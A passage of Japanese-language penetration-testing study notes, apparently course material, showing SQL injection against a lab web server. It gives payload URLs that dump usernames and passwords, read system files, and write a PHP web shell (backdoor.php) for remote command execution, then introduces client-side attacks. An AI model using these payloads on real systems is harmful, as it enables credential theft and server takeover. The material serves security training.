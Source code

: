 usersテーブルは特に面白そうです。そのテーブルをターゲットにして、カラム名を取得してみましょう。を以下のクエリで実行します。

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_s chema.columns where table_name='users'
```

この情報をもとに、テーブルからユーザ名とパスワードを抽出することができます。元のクエリは 3 つのカラムを選択し、Web ページには 2 つと 3 つのカラムが表示されていることがわかります。ユニオンのペイロードを更新すれば、ユーザー名を2列目に、パスワードを3列目に表示することができます。

```
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

これでパスワードを列挙することができました。


#### SQLインジェクションからコード実行へ
この脆弱性をどこまで追い込めるか見てみましょう。オペレーティングシステム、サービス権限、ファイルシステム権限に依存しますが、SQLインジェクションの脆弱性を利用して、基盤となるオペレーティングシステム上のファイルを読み書きすることが可能です。PHPのコードを含む注意深く作られたファイルをWebサーバーのルートディレクトリに書き込むと、完全なコード実行に活用することができます。  
まず、load_file 関数を使ってファイルを読み込むことができるかどうか見てみましょう。

```
http://10.11.0.22/debug.php?id=1 union all select 1, 1, load_file('c:/Windows/System32/drivers/etc/hosts')
```

これで、hostsファイルの内容を出力するはずです。
次に、INTO OUTFILE関数を使って、サーバーのWebルートに悪意のあるPHPファイルを作成することに挑戦してみます。すでに見たエラーメッセージから、ウェブルートの位置はわかっているはずです。LFIの例で使用されたものと同様に、単純なPHPのワンライナーを書いてみることにします。

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

このコマンドではエラーメッセージが出ますが、これは必ずしもファイル作成が失敗したことを意味しません。ipconfigなどのcmdパラメータを指定して、新しく作成されたbackdoor.phpのページにアクセスしてみましょう。

```
http://10.11.0.22/backdoor.php?cmd=ipconfig
```

これでリモートコードを実行させることができました。

# バッファオーバーフロー
<学習に時間がかかるため、時間に余裕がある時にする>







## クライアントサイドアタック
クライアントサイドの攻撃ベクトルは、サーバーソフトウェアを悪用するのとは対照的に、ブラウザなどのクライアントソフトウェアの弱点を突くため、特に陰湿なものとなります。この場合、クライアントソフトウェアが悪意のあるコードを実行するために、多くの場合、何らかの形でユーザーとの対話と欺瞞が必要となります。    
これらの攻撃手段は、被害者のマシンへの直接アクセスやルーティングを必要としないため、攻撃者にとって特に魅力的な手段となっています。 
クライアントサイド攻撃は、従来の攻撃モデルを本質的に覆すものであり、新たな防御パラダイムの必要性を生み出しています。
例えば、ルーティング不可能な内部ネットワークにいる従業員が、添付ファイルや悪意のあるWebサイトへのリンクを含む電子メールを受け取ったとします。従業員が添付ファイルを開いたり、リンクをクリックすると、そのコンテンツ（文書またはWebページのコンテンツである可能性があります）が、従業員のマシン上のローカルアプリケーションに入力として送信されます。このアプリケーションは、その入力をレンダリングし、悪意のあるコードを実行する可能性があります。従業員のマシンは悪用され、おそらく侵害されたマシンからファイアウォールを介して攻撃者のマシンのリスナーにリモートシェルを起動します。  
このモジュールでは、この種の攻撃で考慮すべき重要な要因のいくつかを説明し、悪意のある HTML アプリケーションと Microsoft Word 文書の両方を含む悪用シナリオを順を追って説明します。
